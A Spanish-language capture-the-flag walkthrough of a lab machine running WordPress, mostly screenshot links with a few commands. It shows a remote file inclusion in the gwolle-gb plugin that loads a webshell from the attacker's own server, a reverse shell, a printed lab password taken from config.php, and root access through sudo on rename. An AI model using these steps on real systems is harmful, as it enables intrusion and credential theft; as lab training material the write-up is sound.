 Hacemos el escaneo con nmap:
![[Pasted image 20231129154012.png]]
Esto es lo que corre dentro del puerto 80:
![[Pasted image 20231129154038.png]]
Hacemos fuzzing y vemos que corre un directorio llamado wordpress:
![[Pasted image 20231129154119.png]]
Accedemos a dicho directorio, donde vemos que se trata de un wordpress, pero que no le carga correctamente la información:
![[Pasted image 20231129154214.png]]
Por lo que vemos el código fuente y detectamos un dominio:
![[Pasted image 20231129154238.png]]
Lo añadimos al /etc/hosts:
![[Pasted image 20231129154309.png]]
Y ya nos carga bien la página:
![[Pasted image 20231129154325.png]]
Procedemos a enumerar posibles usuarios y plugins de este wordpress, pero debemos de activar el modo agresivo:
```bash
wpscan --url http://192.168.0.37/wordpress -e p --plugins-detection aggressive
```
![[Pasted image 20231129155224.png]]
Y tenemos la siguiente ruta:
![[Pasted image 20231129155319.png]]
Y detectamos la versión:
![[Pasted image 20231129155343.png]]
Y tenemos en exploitdb un exploit de remote file inclusion:
![[Pasted image 20231129155451.png]]
Y por aquí tenemos las instrucciones donde se nos dice que tenemos que estar alojando en un servidor web el comando malicioso que queramos ejecutar en la máquina víctima:
![[Pasted image 20231129155536.png]]
Por lo que nos preparamos el servidor web malicioso donde vamos a estar alojando una webshell:
![[Pasted image 20231129155649.png]]
![[Pasted image 20231129155706.png]]
Lo pegamos:
![[Pasted image 20231129193646.png]]
Pero no funciona, y vemos en la petición del servidor de python que busca otro archivo:
![[Pasted image 20231129194036.png]]
Por lo que vamos a renombrar la webshell a este mismo nombre:
![[Pasted image 20231129194012.png]]
Volvemos a levantar un servidor http y hacemos la petición con el nuevo nombre:
![[Pasted image 20231129194111.png]]
Y ahora vemos el resultado del comando:
```python
http://remote.nyx/wordpress/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.0.32:8000/shell.php&cmd=whoami
```
![[Pasted image 20231129194129.png]]
Obtenemos la reverse shell de revshells url encodeada:
![[Pasted image 20231130100817.png]]
Lo pegamos y obtenemos la reverse shell:
![[Pasted image 20231130100835.png]]
![[Pasted image 20231130100846.png]]
![[Pasted image 20231130100856.png]]
Y dentro del archivo config.php en el directorio wordpress nos encontramos con unas credenciales:
![[Pasted image 20231130101209.png]]
Tenemos la contraseña del usuario Tiago:
```bash
tiago:WPr00t3d123!
```
![[Pasted image 20231130101322.png]]
Tenemos el siguiente binario que podemos ejecutarlo como root:
![[Pasted image 20231130101417.png]]
Si ejecutamos el menú de ayuda del programa, vemos que podemos ejecutar las páginas man como root:
![[Pasted image 20231130101701.png]]
Lo ejecutamos y una vez dentro lanzamos el comando de una bash:
```bash
sudo /usr/bin/rename --man
```
![[Pasted image 20231130101750.png]]
Y ya somos root:
![[Pasted image 20231130101811.png]]
